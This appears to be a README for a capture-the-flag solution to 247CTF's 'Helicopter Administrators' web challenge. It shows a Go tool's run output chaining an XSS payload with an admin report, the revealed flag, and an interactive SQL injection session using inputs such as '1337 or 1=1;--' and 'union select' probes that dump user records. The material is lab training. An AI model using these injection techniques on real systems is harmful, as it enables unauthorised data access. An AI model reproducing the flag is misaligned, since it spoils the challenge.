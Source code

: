 ### Helicopter Administrators Solved ( Rated Hard ) - 300 points

```
This applications administrators are very aggressive. They will immediately view any page you report. Can you trick them into disclosing data they shouldn't? 
```

1- Change 	`urlBase` varible to your generated url:

```go
string = "https://feef92c0eb0c14bf.247ctf.com
`

Then you are ready to go:
To get only the flag, run the following:


```go
*$ go run cmd/xss/main.go              
[+] Advanced XSS Challenge at 247ctf.com - HELICOPTER ADMINISTRATORS
[+] Cleaning stuff..
[+] Sending XSS Payload..
[+] Reporting the comment - Go Admin!..
[+] Parsing the HTML Page ..
[+] Sending Search data ..
{"message":[[1,2,3,4,5,"247CTF{c9355024736f1fdfa121e243c7024540}"]],"result":"success"}

*$ 
```

You also have interactive shell with the backend of the `sqlite`

```sh
*[master]yas3r@linux[/mnt/WindowsDrive/xss-challenge]$ go run cmd/xss/main.go -h
Usage of /tmp/go-build950372382/b001/exe/main:
  -interactive
    	[+] Interactive to manual SQL injection!
exit status 2
*[master]yas3r@linux[/mnt/WindowsDrive/xss-challenge]$ 
```

Lets try to interactive with the backend databse:

```bash
*[master]yas3r@linux[/mnt/WindowsDrive/xss-challenge]$ go run cmd/xss/main.go --interactive
[+] Advanced XSS Challenge at 247ctf.com - HELICOPTER ADMINISTRATORS
[+] Cleaning stuff..
[+] Sending XSS Payload..
[+] Reporting the comment - Go Admin!..
[+] Parsing the HTML Page ..
[+] Sending Search data ..
#-> 1
{"message":[[1,"Michael Owens",14,22,3,"Sydney, Australia"]],"result":"success"}

#-> 1337 or 1=1;--
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}

#-> 1337 order by 1;--
{"message":[],"result":"success"}

#-> 1337 order by 7;--
{"message":"SQLite error: 1st ORDER BY term out of range - should be between 1 and 6","result":"error"}

#-> 1337 union select 1,2,3,4,5,6;--
{"message":[[1,2,3,4,5,6]],"result":"success"}

```


